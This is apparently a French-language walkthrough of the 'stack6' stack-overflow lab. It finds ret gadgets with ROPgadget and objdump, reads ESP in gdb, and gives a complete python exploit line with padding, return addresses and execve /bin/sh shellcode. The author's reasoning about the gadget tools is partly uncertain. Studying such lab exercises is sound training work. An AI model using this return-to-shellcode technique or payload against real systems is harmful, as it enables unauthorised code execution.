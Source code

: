 ```
Documents/ROPgadget-master/ROPgadget.py --binary ./stack6 --only "ret"
Gadgets information
============================================================
0x0804833e : ret
```

```
objdump -D ./stack6 | grep "ret"       |  
 804835f:	c3                   	ret
 8048454:	c3                   	ret    
 8048482:	c3                   	ret    
 80484f9:	c3                   	ret    
 8048508:	c3                   	ret    
 8048514:	c3                   	ret    
 8048579:	c3                   	ret    
 804857d:	c3                   	ret    
 80485a9:	c3                   	ret    
 80485c7:	c3                   	ret    
```

dumprop me propose un seul à l'adresse : 0x80484f9.

Sans forcement avoir tous les éléments de réponse, je ferai confiance à dumprop car sa réponse fait partie des ret trouvés dans le binaire. Je suis étonné des résulats de ROPgadget, probalement un mauvaise compréhension de ma part.

Du coup c'est quoi la suite ?

L'instruction ret est l'équivalent de pop eip / jmp esp.

```
|     |       |     |         |                 |
|     |       |     |         |                 |
| EIP |-----> | @RET| ------> | @ du shellcode  |
|     |       |     |         | soit ESP        |
```

Nous écrasons EIP par l'adresse de l'instruction RET. Elle va prendre la prochaine instruction dans la pile
et sauter dessus. La prochaine instruction est l'adresse d'ESP, là ou débute le shellcode.

Contrôle EIP + @RET + @SHELLCODE(ESP) + SHELLCODE

L'adresse de ret est obtenue via dumprop.
L'adresse du shellcode est obtenue en observant ESP lors du contrôle d'EIP.

```
0x41414141 in ?? ()
gdb-peda$ x/x $esp
0xffe051f4:	0x6850c031
```

```
python -c 'print "A"*80 + "\x08\x04\x84\xf9"[::-1] + "\xff\xe0\x51\xf4"[::-1] + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"' > /tmp/file

./stack6 < /tmp/file
```
